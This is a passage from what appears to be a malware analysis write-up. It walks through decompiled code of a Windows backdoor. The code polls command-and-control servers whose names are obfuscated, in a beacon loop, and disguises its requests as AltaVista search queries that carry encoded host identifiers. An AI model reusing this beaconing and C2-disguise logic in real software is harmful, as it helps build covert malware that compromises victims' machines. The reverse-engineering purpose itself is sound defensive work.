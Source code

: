 Next we can see:
```cpp
while ( 1 )
{
  while ( sub_4021C0((int)&lpBuffer, &nNumberOfBytesToWrite, 0) < 0 || !nNumberOfBytesToWrite )
  {
    lpBuffer = 0;
    Sleep(15000u);
  }
```
So let's go step by step and analyze sub_4021C0.
#### Code 23
```cpp
int __cdecl sub_4021C0(int a1, LPDWORD lpdwNumberOfBytesRead, int a3)
{
  CHAR szServerName[64]; // [esp+8h] [ebp-158h] BYREF
  char Buffer[256]; // [esp+48h] [ebp-118h] BYREF
  int v6; // [esp+14Ch] [ebp-14h] BYREF
  int v7[3]; // [esp+150h] [ebp-10h]
  int v8; // [esp+15Ch] [ebp-4h]

  v7[0] = (int)",('j(]Y\\[hh#Xdb";
  v7[1] = (int)"ldeZni_WhWkbkZ#Xdb";
  v7[2] = (int)",('j(]Y\\[hh#Xdb";
  v8 = -2147467259;
  v6 = 0;
  if ( !dword_405384 )
  {
    qword_405378 = sub_403040();
    dword_405384 = 1;
  }
  while ( 1 )
  {
    if ( (unsigned int)dword_405380 >= 3 )
      dword_405380 = 0;
    memset(szServerName, 0, sizeof(szServerName));
    sub_402850(v7[dword_405380], szServerName);
    if ( a3 )
      v8 = sub_4028E0(
             Buffer,
             256,
             "searcho?fr=altavista&itag=ody&q=%s%%2C%02x%02x%02x%02x%02x%02x%02x%02x%s&kgs=1&kls=0&p=%d",
             (char)"LJRf0SCBd_PQg6");
    else
      v8 = sub_4028E0(
             Buffer,
             256,
             "searcho?fr=altavista&itag=ody&q=%s%%2C%02x%02x%02x%02x%02x%02x%02x%02x%s&kgs=1&kls=0",
             (char)"LJRf0SCBd_PQg6");
    if ( v8 < 0 )
      return v8;
    v6 = 0;
    v8 = sub_402580(a1, lpdwNumberOfBytesRead, szServerName, Buffer, (int)&v6, a3);
    if ( v6 == 200 )
      dword_405054 = 0;
    if ( v8 >= 0 )
      break;
    Sleep(0x64u);
    ++dword_405380;
  }
  return v8;
}
```